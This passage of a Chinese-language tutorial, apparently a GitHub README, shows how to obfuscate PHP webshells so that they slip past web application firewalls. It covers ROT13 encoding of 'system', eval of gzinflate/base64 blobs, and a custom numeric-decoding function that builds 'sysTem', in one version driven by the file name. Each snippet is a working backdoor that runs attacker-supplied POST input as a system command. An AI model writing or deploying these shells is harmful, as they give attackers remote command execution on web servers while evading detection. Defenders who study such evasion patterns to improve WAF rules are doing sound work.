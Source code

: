 ### 1.3 ROT13编码

```php
$f = str_rot13('flfgrz');  //解密后为system高危函数
$f($_POST['aabyss']);      //system($_POST['aabyss']);
```

当然还有很多其他的编码和加密方式，但常见的编码方式都被放入敏感名单了，会根据加密的形式自动进行解密

可以考虑一些比较冷门的编码方式，或者写一个类似于凯撒密码的加密函数，来对WAF进行ByPass

### 1.4 Gzip压缩加密

我先举一个 `phpinfo()` 加密后的示例：

```php
/*Protected by AabyssZG*/
eval(gzinflate(base64_decode('40pNzshXKMgoyMxLy9fQtFawtwMA'))); 
```

加密手法可以看我写的博客： [https://blog.zgsec.cn/archives/147.html](https://blog.zgsec.cn/archives/147.html) 

## 2# 字符串混淆处理绕过

### 2.1 自定义函数混淆字符串

通过对上面所说两部分敏感内容的拼接、混淆以及变换，来绕过WAF的检测逻辑，如下：

```php
function confusion($a){
    $s = ['A','a','b', 'y', 's', 's', 'T', 'e', 'a', 'm'];
    $tmp = "";
    while ($a>10) {
        $tmp .= $s[$a%10];
        $a = $a/10;
    }
    return $tmp.$s[$a];
}
$f = confusion(976534);         //sysTem（高危函数）
$f($_POST['aabyss']);           //sysTem($_POST['aabyss']);
```

### 2.2 自定义函数+文件名混淆

同样，可以配合文件名玩出一些花活，我们建一个PHP名字为 `976534.php`：

```php
function confusion($a){
    $s = ['A','a','b', 'y', 's', 's', 'T', 'e', 'a', 'm'];
    $tmp = "";
    while ($a>10) {
        $tmp .= $s[$a%10];
        $a = $a/10;
    }
    return $tmp.$s[$a];
}

$f = confusion(intval(substr(__FILE__, -10, 6)));   //sysTem（高危函数）
//__FILE__为976534.php
//substr(__FILE__, -10, 6)即从文件名中提取出976534
//confusion(intval(976534))即输出了sysTem（高危函数），拼接即可
$f($_POST['aabyss']);        //sysTem($_POST['aabyss']);
```
